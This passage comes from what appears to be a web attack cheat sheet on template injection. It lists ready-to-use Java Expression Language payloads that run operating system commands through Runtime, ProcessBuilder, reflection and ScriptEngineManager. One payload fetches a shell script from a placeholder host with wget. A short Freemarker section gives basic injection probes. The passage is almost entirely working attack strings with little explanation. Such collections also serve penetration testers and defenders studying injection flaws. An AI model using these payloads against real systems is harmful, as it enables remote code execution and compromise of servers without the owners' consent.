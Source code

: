 ### Expression Language EL - Code Execution

```java
// Common RCE payloads
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

// Method using Runtime
#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
#{session.getAttribute("rtc").setAccessible(true)}
#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

// Method using process builder
${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
${request.getAttribute("c").add("cmd.exe")}
${request.getAttribute("c").add("/k")}
${request.getAttribute("c").add("ping x.x.x.x")}
${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
${request.getAttribute("a")}

// Method using Reflection & Invoke
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}

// Method using ScriptEngineManager one-liner
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

// Method using ScriptEngineManager
${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}
```

---

## Freemarker

[Official website](https://freemarker.apache.org/)
> Apache FreeMarker™ is a template engine: a Java library to generate text output (HTML web pages, e-mails, configuration files, source code, etc.) based on templates and changing data. 

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

### Freemarker - Basic injection

The template can be `${3*3}` or the legacy `#{3*3}`.
